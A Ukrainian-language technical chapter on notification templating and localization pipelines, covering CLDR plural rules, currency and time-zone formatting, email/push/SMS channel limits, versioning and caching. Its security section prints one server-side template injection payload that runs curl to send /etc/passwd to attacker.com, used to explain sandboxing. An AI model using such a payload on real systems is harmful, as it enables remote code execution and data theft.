



# Шаблони й локалізація сповіщень

<preknowlist>
- [i18n як архітектура](book:programming/i18n-as-architecture) — локаль як параметр на межі системи, відсутність жорстко закодованих рядків і правил у бізнес-логіці.
- [Узгодження вмісту](book:programming/content-negotiation) — узгодження форматів і мов у мережевих протоколах.
- [Вузол сповіщень](book:programming/notification-fanout) — черги, канали доставки (push, email, SMS, in-app) та механіка розсилки подій.
- [Черга задач](book:programming/background-jobs) — асинхронне виконання рендерингу та відправки поза синхронним HTTP-циклом.
- [UTF-8](book:programming/ascii-utf8) — кодування символів Unicode для коректного збереження та передачі тексту всіма мовами світу.
</preknowlist>

У бізнес-транзакції створення замовлення на платформі електронної комерції сервіс білінгу генерує одну канонічну подію: `order_confirmed` з об'єктом замовлення (сума в центах `12999`, валюта `USD`, список товарів, дата `2026-08-20T10:15:30Z`, ідентифікатор покупця). Проте на виході система зобов'язана згенерувати три кардинально різні представлення для різних каналів і отримувача з локаллю `uk-UA` та часовим поясом `Europe/Kyiv`:
1. Багатомовний транзакційний HTML-лист із вбудованими таблицями, CSS-стилями для мобільних поштових клієнтів і plain-text fallback версією;
2. Push-повідомлення для смартфона з жорстким лімітом корисного навантаження (4 КБ для APNs/FCM) та лаконічним заголовком і тілом;
3. SMS-повідомлення з контролем символьного бюджету (160 символів у GSM-7 або 70 символів у UCS-2/UTF-16 через кириличні літери).

Спроба конструювати ці рядки звичайною конкатенацією рядків виду `f"Вітаємо, {user}, ви маєте {count} товарів на суму {amount}"` або рендерити через класичні HTML-шаблонізатори веб-сторінок ламається на першому ж реальному користувачеві. Бізнес-код не знає граматичних правил відмінювання числівників у мові адресата, не враховує регіональних стандартів запису дат і сум, створює критичні вразливості виконання довільного коду через ін'єкцію шаблонів (SSTI), перевищує побайтові ліміти мобільних шлюзів і генерує зайві сегменти SMS, що збільшують витрати компанії на розсилку в кілька разів.

Для вирішення цього завдання застосовується спеціалізований архітектурний вузол — **конвеєр шаблонізації та локалізації сповіщень** (Notification Templating & Localization Pipeline).


*Архітектурний конвеєр: подія та контекст адресата проходять крізь реєстр шаблонів, пісочницю та рушій i18n, розгалужуючись на адаптери каналів доставки.*

## 1. Анатомія конвеєра: від бізнес-сигналу до канального артефакту

Головна відмінність рендерингу сповіщень від генерації звичайних веб-сторінок полягає у точці визначення контексту. Під час завантаження веб-сторінки контекст визначає клієнтський браузер у поточному синхронному HTTP-запиті через заголовок `Accept-Language` та cookies сесії. У системі сповіщень рендеринг виконується асинхронно у фонових воркерах ([черга задач](book:programming/background-jobs)) через хвилини чи навіть години після виникнення бізнес-події, причому одна й та сама подія розсилається тисячам різних користувачів з індивідуальними локалями, часовими поясами та активованими каналами зв'язку.

Архітектура вузла шаблонізації базується на строгому розділенні відповідальності між чотирма фундаментальними сутностями:

```
[Бізнес-подія (Payload)] ──┐
                          ├──► [Notification Templating Engine] ──► [Канальні артефакти]
[Профіль отримувача]     ──┘          │           │           │        ├── Email (HTML + Text)
                                      ▼           ▼           ▼        ├── Push (APNs / FCM JSON)
                              [Реєстр AST]  [CLDR i18n]  [Пісочниця]   └── SMS (GSM-7/UCS-2)
```

1. **Канонічна бізнес-подія (Canonical Event Payload):** єдине джерело правди про подію. Вона формується бізнес-сервісом і містить виключно структуровані сирі дані без жодного форматованого тексту чи мовних маркерів:
   - Ідентифікатори сутностей (`order_id`, `user_id`);
   - Фінансові величини у мінімальних неподільних одиницях валюти (цілі 64-бітні числа: центи, копійки, сатоші);
   - Часові мітки за стандартом ISO 8601 у нульовому часовому поясі (UTC: `2026-08-20T10:15:30Z`);
   - Масиви числових та строкових атрибутів.
2. **Профіль контексту отримувача (Recipient Context Profile):** витягується зі сховища користувачів у момент обробки завдання воркером. Містить мовну локаль IETF BCP 47 (`uk-UA`, `en-US`, `pl-PL`), канонічну назву географічного часового поясу IANA (`Europe/Kyiv`, `America/New_York`), статус підписок на канали зв'язку та налаштування доступності.
3. **Реєстр та компілятор шаблонів (Template Registry):** зберігає версіоновані декларативні визначення повідомлень для кожного типу події. Компілює вихідний текст шаблону в абстрактне синтаксичне дерево (AST) та кешує його в оперативній пам'яті воркерів.
4. **Адаптери каналів (Channel Renderers):** спеціалізовані модулі, які трансформують обчислене синтаксичне дерево у специфічні бінарні та текстові формати, що вимагаються кінцевими шлюзами доставки (MIME-пакети для SMTP, JSON-структури для APNs/FCM, оптимізовані рядки для SMS-шлюзів).

Система також розрізняє **транзакційні сповіщення** (Transactional: скидання пароля, двофакторна автентифікація, чеки оплат) та **маркетингові розсилки** (Marketing: щотижневі дайджести, акційні пропозиції). Транзакційні шаблони мають найвищий пріоритет у черзі, ігнорують глобальний opt-out маркетингу, але суворо перевіряються на відсутність рекламних блоків для дотримання поштових правил.

> 🔧 **Навіщо це.**
> Якщо дозволити сервісу замовлень формувати рядок на кшталт `"Ваше замовлення на суму $129.99 підтверджено"`, система втрачає здатність перекласти цей текст для користувача з іншою мовою, не може витягти суму для відображення в короткому Push-повідомленні та змушена розсилати англійський текст користувачам по всьому світу. Бізнес-сервіс передає лише сирі факти; людську форму цим фактам надає виключно вузол шаблонізації на межі доставки.

Детальний аналіз історичного шляху від простих текстових замін у мейнфреймах до сучасних AST-компіляторів викладено у вставці [Історичний огляд еволюції рушіїв шаблонізації](book:programming/notification-templating/hist-template-engines.md).

## 2. Локалізація на межі рендерингу: граматика, час та числа

Локалізація (від латинського *locālis* — місцевий) у сповіщеннях не зводиться до словникового перекладу слів. Це повноцінний процес трансформації абстрактних числових та часових величин за правилами конкретної культури та мови адресата.

### Стандарт ICU MessageFormat та граматика множини CLDR

Головним джерелом помилок у багатомовних сповіщеннях є граматичні категорії множини. В англійській мові існує лише дві форми: однина (`1 item`) та множина (`0 items`, `2 items`, `5 items`). Проте в українській мові форма іменника залежить від останньої цифри числа та вимагає трьох різних слів: `1 файл`, `2 файли`, `5 файлів`. В арабській мові таких категорій шість: `zero`, `one`, `two`, `few`, `many`, `other`.

Міжнародний консорціум Unicode стандартизував ці правила в репозиторії **CLDR (Common Locale Data Repository)** та визначив формат синтаксичних виразів **ICU MessageFormat**:

```
{count, plural,
  one {# нове повідомлення}
  few {# нові повідомлення}
  many {# нових повідомлень}
  other {# нового повідомлення}
}
```


*Синтаксичне дерево ICU MessageFormat: аргументи та граматичні розгалуження множини обчислюються за правилами CLDR локалі адресата.*

Рушій рендерингу розбирає цей вираз в AST-дерево. Під час виконання вузол `PluralNode` звертається до модуля локалізації з числом `N` та ідентифікатором мови:
- Для числа `23` в українській мові: `23 % 10 = 3` (і `23 % 100 != 13`) → обирається категорія `few` → підставляється підгілка `"23 нові повідомлення"`.
- Для того самого числа `23` в англійській мові: `23 != 1` → обирається категорія `other` → підставляється підгілка `"23 new messages"`.
- У польській мові (`pl-PL`) правила подібні до українських, але `1` належить до `one`, числа із закінченням `2..4` (крім `12..14`) — до `few`, а решта — до `many`.
- В арабській мові (`ar`) число `0` вибирає `zero`, `1` — `one`, `2` — `two`, `3..10` — `few`, `11..99` — `many`, а решта — `other`.

Крім множини, стандарт ICU MessageFormat підтримує конструкцію `select` для гендерного та контекстного узгодження:

```
{gender, select,
  female {{author} додала вас до списку контактів}
  male   {{author} додав вас до списку контактів}
  other  {{author} додав(ла) вас до списку контактів}
}
```

### Форматування чисел, валют і нерозривні пробіли

Відображення фінансових сум регулюється суворими національними стандартами типографіки:
- **Сполучені Штати (`en-US`):** символ валюти стоїть перед числом без пробілу, десятковим роздільником є крапка, групи тисяч розділяються комами: `$1,299.99`.
- **Україна (`uk-UA`):** символ валюти стоїть після числа через нерозривний пробіл, десятковим роздільником є кома, групи тисяч відокремлюються нерозривним пробілом (NBSP, код `\u00A0`): `1 299,99 $` або `1 299,99 грн`.
- **Німеччина (`de-DE`):** крапка використовується для тисяч, кома для копійок: `1.299,99 €`.
- **Японія (`ja-JP`):** єна є бездецимальною валютою (Zero-Decimal Currency), сума в системі передається як ціле число `12999`, а форматується як `¥12,999` без дробової частини.
- **Бахрейн (`ar-BH`):** динар містить три знаки після коми (Three-Decimal Currency), тому сума ділиться на `1000`, форматуючись як `12.999 BHD`.

Якщо шаблон замість виклику форматувальника `Intl.NumberFormat` використовує звичайне склеювання рядків `amount + " грн"`, рядок у листі або на екрані смартфона може розірватися на межі рядка: число залишиться на одному рядку, а позначення валюти перенесеться на наступний, що суперечить правилам типографіки та створює враження неякісного продукту.

### Конвертація часових поясів та сезонний час (DST)

Усі часові мітки в базах даних і чергах задач зберігаються виключно у форматі UTC. Проте користувач очікує побачити час за своїм локальним годинником.

Перетворення часу містить три критичні правила:
1. **Заборона фіксованих числових зміщень:** Ніколи не зберігайте в профілі користувача зміщення вигляду `UTC+2` чи `UTC+3`. В Україні взимку діє східноєвропейський час (UTC+2), а влітку — східноєвропейський літній час (UTC+3). Збереження статичного числа призведе до того, що пів року всі сповіщення користувача матимуть похибку рівно в одну годину. Зберігати дозволено виключно канонічний ідентифікатор бази даних часових поясів IANA TZDB: `"Europe/Kyiv"`, `"America/New_York"`, `"Asia/Tokyo"`.
2. **Астрономічна точність історичних подій:** База даних IANA враховує історичні зміни законодавства (наприклад, скасування чи перенесення дат переходу на літній час у різних країнах). Форматувальник обчислює точне зміщення саме для тієї календарної дати, коли сталася подія.
3. **Локалізація назв місяців та днів тижня:** Назва місяця `"August"` при рендерингу для української локалі у складі дати повинна приймати форму родового відмінка (`"20 серпня 2026 р."`), а не називного (`"20 серпень 2026"`).

### Ланцюжок зворотного відкату локалей (Fallback Cascade)

Якщо для конкретного сповіщення відсутній переклад мовою `uk-UA`, система не має права зупиняти розсилку аварійною помилкою. Застосовується ієрархічний ланцюжок відкату (Fallback Cascade):

```
1. Точна локаль користувача:    uk-UA (Українська, Україна)
               │ (якщо шаблон не знайдено)
               ▼
2. Базова мовна група:         uk (Українська загальна)
               │ (якщо шаблон не знайдено)
               ▼
3. Системна резервна мова:     en-US (Англійська за замовчуванням)
```

Головне правило архітектури сповіщень: **доставка сповіщення резервною мовою завжди краща за втрату важливого транзакційного повідомлення**.

## 3. Специфіка цифрових каналів: від HTML-таблиць до побайтових лімітів

Один бізнес-шаблон генерує принципово різні фізичні артефакти залежно від цільового каналу зв'язку.

### Канал Email: боротьба з поштовими клієнтами та інлайнінг CSS

Електронна пошта залишається найскладнішим середовищем для візуального рендерингу. На відміну від веб-браузерів, які підтримують сучасні специфікації HTML5 та CSS3, поштові клієнти використовують застарілі та фрагментовані рушії відображення:
- Десктопний **Microsoft Outlook** (версії від 2007 до сучасних) використовує рушій рендерингу Microsoft Word, який не підтримує блочну модель CSS (`flexbox`, `grid`, `position`), не розуміє `margin: auto` для центрування і вимагає побудови всієї структури листа на вкладених таблицях `<table>`. Для заокруглення кутів та фонових зображень доводиться використовувати умовні коментарі зі спеціальною векторною мовою розмітки Microsoft VML (`<!--[if mso]><v:roundrect ...><![endif]-->`).
- **Google Gmail** (особливо мобільні клієнти) автоматично вирізає блок `<style>` у заголовку `<head>`, якщо розмір листа перевищує 102 КБ або якщо селектори містять непідтримувані атрибути. Перевищення ліміту в 102 КБ призводить до обрізання листа (Gmail Clipping: «Message clipped [View entire message]»), що ховає підвал з обов'язковим посиланням відписки та викликає масові скарги на спам.
- **Apple Mail** коректно підтримує сучасний CSS, медіа-запити та темну тему (Dark Mode).

```
[Base Shell Layout]  +  [Body Partial]  +  [CSS Stylesheet]
           │                    │                   │
           └────────────────────┼───────────────────┘
                                ▼
                    [CSS Inliner Engine] ── парсинг <style> та інлайнінг у style="..."
                                │
                                ▼
            [Multi-part MIME Generator (RFC 2046)]
              ├── Part 1: text/plain (Plaintext fallback)
              └── Part 2: text/html  (Табличний HTML з інлайновими стилями)
```


*Композиція HTML-листа: базовий макет об'єднується з локалізованим тілом, стилі інлайняться в атрибути, а текстовий екстрактор створює plaintext-двійник.*

Конвеєр підготовки листа виконує такі обов'язкові кроки:
1. **Інлайнінг стилів (CSS Inlining):** спеціалізований компілятор парсить класи CSS, обчислює специфічність селекторів (Specificity Cascade: тег проти класу проти ID) і записує результуючі правила безпосередньо в атрибути `style="..."` кожного HTML-тега. Адаптивні медіа-запити `@media (max-width: 600px)` та правила темної теми `@media (prefers-color-scheme: dark)` залишаються у захищеному блоці `<style>` у `<head>`.
2. **Таблична розмітка (Table-based layout):** кожен семантичний блок оформлюється тегами `<table>`, `<tr>`, `<td>` із явним зазначенням атрибутів `width`, `cellpadding="0"`, `cellspacing="0"` та `role="presentation"`.
3. **Генерація текстового двійника (Plaintext Fallback):** відповідно до стандарту RFC 2046 лист відправляється як контейнер `multipart/alternative`, що містить дві версії: `text/html` та `text/plain`. Текстова версія генерується автоматично: гіперпосилання `<a href="URL">Текст</a>` розгортаються у вигляд `Текст (URL)`, списки замінюються на текстові маркери, а HTML-сутності декодуються.

### Канал Mobile Push: ліміти APNs/FCM та валідація UTF-8

Шлюзи мобільних сповіщень Apple Push Notification service (APNs) та Google Firebase Cloud Messaging (FCM) накладають суворе обмеження на максимальний розмір усього пакета сповіщення — **рівно 4096 байтів** у форматі JSON.

```json
{
  "aps": {
    "alert": {
      "title": "Замовлення сплачено",
      "body": "Олена, ваші 23 товари прямують до вас!"
    },
    "sound": "default",
    "badge": 1,
    "mutable-content": 1
  },
  "data": {
    "order_id": "ORD-9982",
    "route": "/orders/9982"
  }
}
```

Архітектурні вимоги до Push-адаптера:
1. **Побайтове вимірювання розміру:** Ліміт 4 КБ рахується в байтах кодування UTF-8, а не в символах. Символи кирилиці займають 2 байти, а емодзі — 4 байти.
2. **Безпечне скорочення (Safe Truncation):** Якщо розмір JSON перевищує 4096 байтів, адаптер скорочує поле `body`. Обрізання рядка повинно враховувати межі символів Unicode: якщо розрізати 4-байтний емодзі або сурогатну пару посередині, утвориться невалідний символ `\uFFFD`, через що шлюз APNs поверне помилку `400 BadDeviceToken / PayloadMalformed` і сповіщення не надійде на пристрій.
3. **Тихі фонові пуші (Silent Push):** Спеціальний режим із прапорцем `"content-available": 1` без полів `alert` та `sound`. Таке сповіщення не показує банер на екрані, а будить додаток у фоні на 30 секунд для синхронізації даних із сервером.

### Канал SMS: кодування GSM-7 проти UCS-2 та UDH-сегментація

Телекомунікаційні шлюзи використовують стандарт кодування GSM 03.38. Фізичний пакет SMS у мережі стільникового зв'язку вміщує рівно 140 байтів корисного навантаження:

```
┌────────────────────────────────────────────────────────────────────────┐
│                          СИМВОЛЬНИЙ БЮДЖЕТ SMS                         │
├────────────────────────────────┬───────────────────────────────────────┤
│ Режим GSM-7 (Латиниця 7 біт)   │ Режим UCS-2 (Кирилиця / Емодзі 16 біт)│
│ - 1 сегмент:  до 160 символів  │ - 1 сегмент:  до 70 символів          │
│   (160 × 7 біт = 1120 біт)     │   (70 × 16 біт = 1120 біт = 140 байт) │
│ - 2 сегменти: до 306 символів  │ - 2 сегменти: до 134 символів         │
│   (153 симв./блок + 7B UDH)    │   (67 симв./блок + 7B UDH)            │
└────────────────────────────────┴───────────────────────────────────────┘
```

Якщо розмір повідомлення перевищує ліміт одного блоку, оператор застосовує розбиття на сегменти з конкатенацією через заголовок **UDH (User Data Header)** розміром 6–7 байтів. У заголовку передається ідентифікатор повідомлення, загальна кількість частин та номер поточної частини.

Через втрату 7 байтів на заголовок місткість кожного наступного блоку зменшується:
- У GSM-7: зі 160 до 153 символів (`153 × 7 / 8 = 133.875` байтів);
- У UCS-2: з 70 до 67 символів (`67 × 2 = 134` байти).

Якщо в англійському тексті довжиною 150 символів випадково з'являється **одна кирилична літера** (наприклад, у динамічно підставленому імені клієнта) або **один емодзі**, шлюз миттєво перемикає все повідомлення в кодування UCS-2. Ліміт одного сегмента падає зі 160 до 70 символів, і замість одного повідомлення система відправляє три платні SMS-сегменти, збільшуючи рахунок телеком-оператора на 200%.

### Канали In-App сповіщень та корпоративні месенджери (Slack, Teams, Webhooks)

Сучасні платформи доставляють сповіщення не лише через традиційні телеком-шлюзи, але й безпосередньо у веб-інтерфейси додатків (In-App Notification Center) та корпоративні месенджери (Slack, Microsoft Teams, Discord).

Для цих каналів звичайний HTML-код або плоский текст є непридатним. Адаптер генерує типізовані структури блочної розмітки:
- **Slack Block Kit / MS Teams Adaptive Cards:** Замість текстового рядка рушій збирає JSON-дерево блоків (`section`, `divider`, `actions`, `image`), де локалізований текст ICU MessageFormat підставляється всередину текстових полів `mrkdwn` або `plain_text`, а кнопки дій містять безпечно згенеровані URL-адреси вебхуків зворотного виклику.
- **In-App JSON Payloads:** Для відображення спливаючих карток (Toasts) у клієнтському браузері чи мобільному додатку формується структурований об'єкт із полями `id`, `title`, `body`, `icon_url`, `action_route` та відносною міткою часу.

## 4. Безпека та ізоляція рушія: захист від SSTI та екранування

Коли система дозволяє адміністраторам або маркетологам редагувати шаблони сповіщень через веб-інтерфейс, шаблони зберігаються в базі даних і динамічно інтерпретуються сервером. Це відкриває вектор для однієї з найнебезпечніших атак у веб-системах — **Server-Side Template Injection (SSTI)**.

У неізольованих рушіях (старі версії ERB, Jinja2 або Twig без пісочниці) зловмисник, отримавши доступ до редагування шаблону, міг вставити інструкцію доступу до внутрішнього середовища хоста:

```
{{ config.__class__.__init__.__globals__['os'].popen('curl http://attacker.com/steal?data=' + open('/etc/passwd').read()).read() }}
```

Під час рендерингу сповіщення сервер виконував системну команду, надаючи зловмиснику повний контроль над сервером (Remote Code Execution, RCE).

### Принципи безпечної пісочниці (Sandbox Execution)

1. **Відмова від `eval()` та динамічної кодогенерації:** Рушій шаблонів сповіщень є виключно інтерпретатором абстрактного синтаксичного дерева (AST). Він оперує декларативними вузлами і фізично не має інструкцій виклику довільних функцій мови програмування.
2. **Блокування доступу до прототипів:** У середовищі JavaScript/Node.js під час звернення до змінних за ключем (`context[node.key]`) блокуються службові властивості `__proto__`, `constructor`, `prototype`, `valueOf`, щоб запобігти атакам Prototype Pollution.
3. **Обмеження ресурсів процесора та пам'яті:** Лексер шаблонів обмежує максимальну довжину вхідного тексту, глибину вкладеності виразів множини (не більше 3 рівнів) та час виконання операції рендерингу (таймаут 50 мс), що повністю нівелює загрозу атак на виснаження процесора (ReDoS).

### Контекстно-залежне автоматичне екранування

Одне й те саме значення змінної вимагає кардинально різної санітизації залежно від того, куди воно потрапляє:

| Контекст розміщення | Небезпечні символи | Метод екранування |
| :--- | :--- | :--- |
| **HTML-тіло листа** | `< > & " '` | Заміна на HTML-ентіті: `&lt; &gt; &amp; &quot; &#039;` |
| **URL-посилання** | Пробіли, `? & # /` | Процентне кодування `encodeURIComponent()` |
| **Push JSON** | `"` `\` `\n` `\r` `\t` | Екранування JSON-послідовностей `\"`, `\\`, `\n` |
| **SMS та Email Subject** | `\r` `\n` (CRLF) | Повне видалення символів переводу рядка для захисту від Header Injection |

Особливу небезпеку становлять вкладені контексти. Наприклад, коли значення змінної вставляється всередину HTML-атрибута посилання або дата-атрибута кнопки: `<a href="/track?order_id={{orderId}}" data-payload="{{userJson}}">`. У цьому випадку рушій застосовує багаторівневе екранування (Contextual Chaining): спочатку значення кодується за правилами URL або JSON, а потім результуючий рядок повторно проходить HTML-екранування лапок та амперсандів.

Повна програмна реалізація пісочничного компілятора та мультиканального адаптера наведена у вставці [Практична реалізація мультиканального рушія рендерингу](book:programming/notification-templating/proj-notification-renderer.md).

## 5. Версіонування, незмінність та життєвий цикл шаблонів

У розподілених високонавантажених системах завдання на відправку сповіщень можуть перебувати в чергах ([вузол сповіщень](book:programming/notification-fanout)) годинами — наприклад, якщо для користувача діє нічний режим тиші (Quiet Hours) або якщо зовнішній поштовий шлюз зазнав деградації і воркери застосовують експоненційний відкат із повторними спробами (Retry with Backoff).

Якщо в цей час інженер опублікує нову версію шаблону, виникає архітектурна дилема: якою версією шаблону рендерити завдання, що вже перебувають у черзі?

```
Час T0: Подія "order_created" збережена в чергу -> Payload schema v1 (поля: id, amount)
Час T1: Реліз нової версії шаблону v2 -> вимагає обов'язкове поле tracking_url
Час T2: Воркер бере подію з черги.
        - Якщо взяти шаблон v2 -> Crash (поле tracking_url відсутнє в payload v1)
        - Якщо взяти шаблон v1 -> Успішний рендеринг!
```

Для вирішення цієї проблеми застосовується **принцип незмінності шаблонів (Immutable Templates)**:
1. Кожна зміна шаблону реєструється як нова ревізія з унікальним ідентифікатором версії (наприклад, `order_confirmed:2.1.0`).
2. Коли бізнес-подія публікується в чергу задач, у метадані завдання записується точний номер версії шаблону, чинний на момент створення події.
3. Воркери рендерингу гарантовано завантажують саме ту версію шаблону, під контракт якої формувалися дані події.
4. Старі версії шаблонів не видаляються, доки черги не будуть повністю очищені від старих завдань (Graceful Deprecation Period).

## 6. Продуктивність, компіляція та LRU-кешування

Рендеринг сповіщень у масштабі мільйонних розсилок є процесоромісткою операцією. Спроба розбирати текстовий шаблон на кожну подію або створювати нові екземпляри нативних форматувальників мови на кожній ітерації призводить до катастрофічного навантаження на збирач сміття (Garbage Collector).

```
1. Вихідний текст шаблону (S3 / PostgreSQL)
            │
            ▼ [Компіляція один раз при старті або зміні версії]
2. Абстрактне синтаксичне дерево (AST)
            │
            ▼ [Збереження у пам'яті процесу]
3. L1 LRU-кеш у RAM воркера: Map<template_key, CompiledAST>
            │
            ▼ [Швидкий виклик для кожної події: O(1)]
4. Оцінка AST + Кешовані Intl-форматувальники -> Результат за <0.01 мс
```

Оптимізація вузла рендерингу досягається за рахунок:
1. **Попередньої AST-компіляції:** Текст шаблону парситься в дерево AST один раз під час завантаження у пам'ять воркера. Подальший рендеринг зводиться до швидкого обходу масиву об'єктів у пам'яті.
2. **Мемоізації об'єктів `Intl`:** Екземпляри `Intl.PluralRules`, `Intl.NumberFormat` та `Intl.DateTimeFormat` ініціалізують важкі структури бібліотеки C++ ICU. Їхнє кешування в пулі за ключем `${locale}_${currency}_${timezone}` прискорює рендеринг у 30–40 разів.
3. **Пре-рендерингу спільних каркасів (Shared Base Layouts):** Для масових Email-розсилок загальний HTML-каркас листа (шапка бренду, підвал, мета-теги, CSS) рендериться один раз у байтовий буфер, а індивідуальні плейсхолдери підставляються у виділені слоти.
4. **Стримінгового конкатенування:** Замість створення проміжних рядків у пам'яті рушій записує фрагменти безпосередньо у виділений байтовий буфер фіксованого розміру (Ring Buffer / Chunked Stream), мінімізуючи алокації в купі (Heap Allocations).

## 7. Мультиарендність (Multi-Tenancy) та динамічний брендинг

У платформах B2B SaaS (наприклад, системи бронювання або маркетплейси) одна й та сама система надсилає сповіщення від імені тисяч різних компаній-орендарів (Tenants). 

Для підтримки динамічного брендингу (White-Labeling) застосовується **ієрархія перевизначення шаблонів**:
```
┌──────────────────────────────────────────────────────────┐
│  Глобальний базовий шаблон (System Default)               │
│  - Загальна розмітка, переклади за замовчуванням         │
└────────────────────────────┬─────────────────────────────┘
                             │
                             ▼
┌──────────────────────────────────────────────────────────┐
│  Перевизначення орендаря (Tenant Override)                │
│  - Власний логотип, фірмові кольори CSS, URL підтримки   │
│  - Кастомні DKIM-підписи та домени відправника (From/Reply)│
└────────────────────────────┬─────────────────────────────┘
                             │
                             ▼
┌──────────────────────────────────────────────────────────┐
│  Індивідуальні налаштування філії (Sub-account Override) │
│  - Контактний телефон локального офісу, адреса           │
└──────────────────────────────────────────────────────────┘
```

Конвеєр рендерингу гарантує повну ізоляцію: активи та налаштування стилів одного орендаря ніколи не кешуються під спільними ключами інших орендарів, запобігаючи витоку корпоративних даних або випадковій підстановці чужого бренду.

## 8. Інфраструктурні моделі: Воркери черг проти Edge-рендерингу

При проектуванні вузла шаблонізації розглядають дві архітектурні топології:

1. **Централізований кластер фонових воркерів (Worker-based Architecture):**
   - *Механіка:* Сервіси публікують події в Kafka або RabbitMQ. Пул воркерів (на базі Node.js чи Go) вичитує завдання батчами, підтягує профілі адресатів та виконує рендеринг.
   - *Переваги:* Повний доступ до важких нативних бібліотек ICU, підтримка великих LRU-кешів у пам'яті, необмежений час виконання для генерації складних PDF-додатків.
   - *Недоліки:* Додаткова затримка доставки (End-to-End Latency) на рівні 50–200 мс через проходження черг.
2. **Рендеринг на межі мережі (Edge Rendering / Serverless):**
   - *Механіка:* Рендеринг виконується безпосередньо у вузлах доставки CDN (Cloudflare Workers, Fastly Compute, AWS Lambda@Edge).
   - *Переваги:* Ультранизька латентність (<5 мс) для синхронних транзакційних повідомлень (наприклад, миттєве генерування одноразових SMS-паролів).
   - *Недоліки:* Суворі ліміти пам'яті ізолятів (128 МБ), холодні старти функцій (Cold Starts) та відсутність доступу до файлової системи, що вимагає попередньої дистрибуції всіх AST-шаблонів через глобальні KV-сховища та використання полегшених рушіїв форматування.

## 9. Спостережуваність, метрики та аудит конвеєра

Надійність конвеєра сповіщень вимагає комплексного телеметричного моніторингу за стандартом OpenTelemetry. Помилка рендерингу або пропущений переклад безпосередньо спалюють бюджет помилок (Error Budget) сервісу доставки.

Ключові метрики вузла:
- `notification.render.duration_ms`: гістограма тривалості рендерингу з розбивкою за каналами (Email, Push, SMS) та версіями шаблонів (SLO: p99 < 5 мс).
- `notification.ast_cache.hit_ratio`: ефективність пам'яті кешу скомпільованих шаблонів (норма > 0.99).
- `notification.intl_cache.hit_ratio`: ефективність пулу форматувальників локалей.
- `notification.fallback.total`: лічильник випадків відкату на резервну мову через відсутність перекладу (дозволяє автоматично виявляти прогалини у мовних пакетах).
- `notification.sms.segment_inflation`: співвідношення фактично згенерованих SMS-сегментів до очікуваних (сигналізує про випадкову появу кирилиці чи емодзі в латинських повідомленнях).
- `notification.render_errors.total`: лічильник критичних помилок із тегами `reason` (`missing_variable`, `invalid_cldr_plural`, `apns_payload_overflow`).

Кожне згенероване сповіщення маркується заголовком трасування `traceparent` (W3C Trace Context), що зв'язує початковий HTTP-запит користувача, бізнес-подію в черзі, конкретний лог рендерингу та ідентифікатор доставки від зовнішнього провайдера (SendGrid, Twilio, APNs).

## 10. Інженерний процес: Прев'ю, тест-надсилання та комплаєнс

Шаблон сповіщення є частиною користувацького досвіду і безпосередньо впливає на репутацію бренду. Тому життєвий цикл розробки шаблону включає спеціалізовані інструменти перевірки перед релізом:

1. **Матриця синтетичних фікстур (Edge-Case Fixture Testing):** Перед публікацією шаблон автоматично проганяється крізь набір тестових сценаріїв:
   - Екстремально довгі текстові значення (ім'я користувача на 150 символів);
   - Відсутні опційні поля (`null` або `undefined`);
   - Усі граничні форми множини (`0, 1, 2, 4, 5, 21, 100, 1.5`);
   - Специфічні локалі з написанням справа наліво (RTL: арабська, іврит).
